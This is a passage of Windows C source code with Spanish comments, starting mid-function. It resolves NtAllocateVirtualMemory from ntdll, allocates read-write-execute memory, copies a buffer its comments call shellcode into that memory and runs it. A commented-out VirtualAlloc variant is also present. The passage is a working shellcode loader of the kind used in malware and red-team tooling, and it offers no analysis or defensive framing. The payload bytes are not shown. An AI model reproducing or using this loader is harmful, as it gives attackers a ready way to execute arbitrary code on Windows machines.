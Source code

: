 ```c
    }
    // Obtiene la direccion a la función NtAllocateVirtualMemory
    NtAllocateVirtualMemoryPtr NtAllocateVirtualMemory = (NtAllocateVirtualMemoryPtr)(GetProcAddress(hNtdll, "NtAllocateVirtualMemory"));
    if (NtAllocateVirtualMemory == NULL) {
        puts("Error al obtener la direccion a la función NtAllocateVirtualMemory");
        goto exit_free_null;
    }
    // Obtiene la direccion a la función NtFreeVirtualMemory
    NtFreeVirtualMemoryPtr NtFreeVirtualMemory = (NtFreeVirtualMemoryPtr)(GetProcAddress(hNtdll, "NtFreeVirtualMemory"));
    if (NtFreeVirtualMemory == NULL) {
        puts("Error al obtener la direccion a la función NtFreeVirtualMemory");
        goto exit_free_null;
    }

    /*SYSTEM_INFO systemInfo;
    GetSystemInfo(&systemInfo);
    DWORD pageSize = systemInfo.dwPageSize; // obtener el tamaño de pagina*/

    PVOID exec = NULL; // ptr a la memoria reservada
    NTSTATUS Status = NtAllocateVirtualMemory(NtCurrentProcess(), &exec, 0, (PSIZE_T)&size_of_code, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    if (!NT_SUCCESS(Status)) goto exit_free_null;
    printf("ptr NtAllocateVirtualMemory: 0x%p\n", exec);

	/*
    PVOID exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (exec == NULL) puts("VirtualAlloc error");
    printf("ptr VirtualAlloc: 0x%p\n", exec);
    */

    memcpy(exec, code, sizeof code); // copiar el shellcode a la nueva memoria reservada
	((void(*)())exec)(); // ejecuta el shellcode

    // liberar memoria reservada:
    Status = NtFreeVirtualMemory(NtCurrentProcess(), &exec, (PSIZE_T)&size_of_code, MEM_RELEASE);
    if (!NT_SUCCESS(Status)) goto exit_free_null;

    FreeLibrary(hNtdll); // liberar la libreria(memoria asociada)
	return EXIT_SUCCESS;

    exit_free_null:
        puts("Error");
        FreeLibrary(hNtdll);
        return EXIT_FAILURE;

}
```

---
